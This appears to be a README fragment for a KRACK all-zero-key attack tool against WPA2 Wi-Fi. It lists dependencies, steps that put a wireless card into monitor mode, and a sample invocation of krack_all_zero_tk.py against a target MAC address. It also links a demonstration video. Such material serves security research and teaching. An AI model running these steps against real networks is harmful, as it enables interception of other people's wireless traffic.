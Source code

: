 <b>Note! The code execution is under python 2</b>    
<b>In addition, the code must be run from the krackattack-all-zero-tk-key root folder</b> 
</br>

<b>In case of long interface name please run 'sudo airmon-ng start INTERFACE_NAME'</b>  
</br>

Dependencies:   
- sudo apt update
- sudo apt install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-scapy python-pycryptodome

Before execution run the following commands:
- sudo airmon-ng check kill
- service network-manager stop
- sudo rfkill unblock wifi

krack_all_zero_tk.py Run example:
- sudo python ./krackattack/krack_all_zero_tk.py wlx6c5ab0b3f988 wlan0mon ens33 "check" -t F0:27:65:DA:AD:E8    
(See below for an explanation of the command)     
    
The code may require the following packages:
- macchanger
- connect-proxy (sudo apt install connect-proxy)
- socket (sudo apt install socket)

 The following link contains a video that demonstrate this attack: [demostration video](https://www.youtube.com/watch?v=Jq6rPCSuv4o)
 
